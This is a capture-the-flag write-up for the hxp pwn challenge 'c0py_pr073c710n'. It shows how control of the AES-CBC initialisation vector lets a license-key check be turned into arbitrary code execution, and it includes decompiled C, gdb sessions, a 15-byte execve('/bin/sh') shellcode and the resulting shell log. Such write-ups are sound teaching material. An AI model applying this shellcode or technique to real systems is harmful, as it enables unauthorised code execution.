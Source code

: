 ## pwn / c0py_pr073c710n (200+11p, 26 solves)

>Software piracy is a crime!
>Don’t steal our hard work.
>
>nc 104.154.90.175 54509 
>[download](cat_flag.exe)
>
>HINT: 2.19-18+deb8u4

cat_flag.exe is x86-64 ELF binary with some code inside (marked as protected() routine) encrypted using AES-128-CBC. Mechanism is quite simple: binary asks for license key, then decrypts and executes protected() routine.

```c
int main()
{
  // ...
  char licenseKey[48]; // [sp+0h] [bp-60h]@  
  // ...
  
  printf("License Key: ", 0LL);
  strcpy(&licenseKey[17], 'guYoiGpBNgJT9Rb8');
  fgets(licenseKey, 33, stdin);
  ERR_load_crypto_strings(licenseKey, 33LL);
  OPENSSL_add_all_algorithms_noconf();
  OPENSSL_config(0LL);
  // {...}
  if ( mprotect(page_addr, page_size, 7) == -1 )
  {
    result = -1;
  }
  else
  {
    puts("Decrypting protected code...");
    // ... (evaluating encrypted code offset)
    decrypted_len = decrypt(&protected, protectedLen, licenseKey, &licenseKey[17], &protected);
    // ... (noping rest of payload)
    if ( mprotect(page_addr, page_size, 5) == -1 )
    {
      result = -1;
    }
    else
    {
      puts("Finished decryption!");
      puts("Starting protected code...");
      protected();
      puts("Bye!");
      result = 0;
    }
  }
  return result;
}
```

License key is 33-chars string, which is interpreted as 16-bytes AES key and 16-bytes IV with one not-important char in the middle. If we look [how CBC mode works](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_Block_Chaining_.28CBC.29), we can notice one interesting thing:

First decrypted block is just xor'ed with IV, which means that if we have control over IV, we can "decrypt" this block to everything we want. Just get some (random) key, "decrypt" ciphertext using it and xor the result with code you want to execute

Unfortunately, using this method, we can write only one block, which means that our shellcode can be only 16 bytes length. 
Binary hasn't any reference to system() inside, no code which could be helpful in spawning shell. It was difficult to place *"/bin/sh"* and *execve()* syscall in 16 bytes. Fortunately, libc contains string *"/bin/sh"* inside.

    (gdb) set environment LD_PRELOAD=libc2.19-18+deb8u4/libc-2.19.so libc2.19-18+deb8u4/ld-2.19.so
    ...
    (gdb) find &puts, -999999, "/bin/sh"
    0x7ffff7b8f6e8

I've also noticed that *puts()* leaves address in RCX register, which points to the part of *write()* routine from libc. 
With this address, we can easily evaluate *"/bin/sh"* position. Call to *puts()* can also be found just before *protected()* execution.

    (gdb) x/i $rip
    => 0x400c06 <main+33>:  callq  0x400900 <puts@plt>
    (gdb) x/d $rcx
    0x0:    Cannot access memory at address 0x0
    (gdb) ni
    Welcome to cat_flag.exe v0.3
    0x0000000000400c0b in main ()
    (gdb) x/d $rcx
    0x7ffff7b07e20 <write+16>:  -268354232

Finally, this 0xF-bytes shellcode was created:

    0:   31 f6                xor    esi,esi            /* argv NULL */
    2:   48 8d b9 b8 78 08 00 lea    rdi, [rcx+0x878b8] /* cmd "/bin/sh" */
    9:   b0 3b                mov    al,0x3b            /* execve */ 
    b:   31 d2                xor    edx,edx            /* env NULL */
    d:   0f 05                syscall                   /* FIRE! */

...and using this [exploit](exploit.py) we successfully got access to shell and were able to read the flag.

PS.: Shell had also small trap: some commands were modified and didn't produce any output (e.g. ls wasn't working)

    [+] Opening connection to 104.154.90.175 on port 54509: Done
    [*] Switching to interactive mode
    $ ls
    $ pwd
    /home/ctf
    $ find
    .
    ./ynetd
    ./.bashrc
    ./.bash_logout
    ./flag.txt
    ./cat_flag.exe
    ./.profile
    $ cat /home/ctf/flag.txt
    hxp{The unauthorized reproduction or distribution of this copyrighted work is illegal. Criminal copyright infringement, including infringement without monetary gain, is investigated by the FBI and is punishable by up to five years in federal prison and a fine of $250,000.}$  


